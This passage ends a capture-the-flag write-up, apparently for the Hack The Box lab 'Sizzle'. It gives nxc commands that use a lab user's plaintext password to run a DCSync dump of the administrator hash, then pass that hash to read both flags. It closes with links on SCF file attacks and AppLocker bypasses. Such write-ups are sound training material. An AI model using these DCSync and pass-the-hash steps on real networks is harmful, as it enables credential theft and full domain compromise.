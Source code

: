Finally, all we have to do is:

1. Get `administrator`'s hash by performing a [DCSync](../../../tl-dr/tl-dr/active-directory/dcsync.md) attack with `mrlky`'s credentials
2. Use the hash to compromise the domain by reading both flags :crossed\_flags: (Figure 29).&#x20;

{% code overflow="wrap" %}
```bash
# write mrlky's password into a file
echo "Football#7" > mrlky_pass
# perform the DCSync attack
nxc smb 10.10.10.103 -u mrlky -p mrlky_pass --ntds --user administrator
# write admin's hash into a file
echo "f6b7160bfc91823792e0ac3a162c9267" > admin_hash
# compromise the domain by reading both flags
nxc smb 10.10.10.103 -u administrator -H admin_hash -x 'type c:\users\mrlky\desktop\user.txt;type c:\users\administrator\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/sizzle_flags.png" alt=""><figcaption><p>Figure 29: Compromising the domain by grabbing the flags!</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="SFC Files" %}
{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}
{% endtab %}

{% tab title="x509 Certificates" %}
{% embed url="https://revocent.com/how-to-create-x-509-certificates-on-linux/?source=post_page-----90f747882061--------------------------------" %}
{% endtab %}

{% tab title="Writable AppLocker Paths" %}
{% embed url="https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md#placing-files-in-writeable-paths" %}
{% endtab %}
{% endtabs %}
